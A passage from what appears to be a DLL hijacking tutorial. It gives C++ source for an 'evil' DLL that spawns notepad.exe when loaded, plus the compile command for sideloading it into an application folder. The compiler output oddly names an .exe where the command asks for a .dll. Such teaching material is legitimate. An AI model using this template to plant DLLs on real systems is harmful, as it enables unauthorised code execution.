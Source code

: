 > Note: The Procmon operations order is from OLD on top and NEW on bottom. We can see this in the **Time of Day** column.

On our Visual Studio project we'll add our evil DLL payload file named `unknown-evil.cpp` which will spawn `notepad.exe`:

```cpp
#include <Windows.h>
#include <tchar.h>
#include <iostream>

// Needs to be DllMain
BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved)
{
    STARTUPINFO si = { sizeof(si) };
    PROCESS_INFORMATION pi;

    // std::cout << "Launching notepad.exe!" << std::endl;

    // char cmd[] = "C:\\Windows\\System32\\cmd.exe";
    LPCWSTR cmd = L"C:\\Windows\\system32\\notepad.exe";
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        // WinExec(cmd, SW_SHOW); 
        CreateProcess(
            cmd,
            NULL, NULL, NULL, TRUE, 0, NULL, NULL,
            &si, &pi);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

extern "C" __declspec(dllexport)
BOOL WINAPI UnknownMethod()
{
    std::cout << "DLL Hijacked!" << std::endl;
    return TRUE;
}
```

We'll compile this code into a DLL and copy the same to the application directory, this technique is known as **DLL Sideloading** since we're writing a DLL in the application's folder and not in the **%PATH%** environment variable:

```powershell
C:\Users\user\Desktop\DLL-Hijack\DLL-Hijack>cl.exe /W0 /DUNICODE /D_UNICODE /D_USRDLL /D_WINDLL unknown-evil.cpp unknown.def /MT /link /DLL /OUT:unknown.dll
Microsoft (R) C/C++ Optimizing Compiler Version 19.31.31104 for x86
Copyright (C) Microsoft Corporation.  All rights reserved.

unknown-evil.cpp
C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.31.31103\include\ostream(770): warning C4530: C++ exception handler used, but unwind semantics are not enabled. Specify /EHsc
unknown-evil.cpp(35): note: see reference to function template instantiation 'std::basic_ostream<char,std::char_traits<char>> &std::operator <<<std::char_traits<char>>(std::basic_ostream<char,std::char_traits<char>> &,const char *)' being compiled
Microsoft (R) Incremental Linker Version 14.31.31104.0
Copyright (C) Microsoft Corporation.  All rights reserved.

/out:unknown-evil.exe
```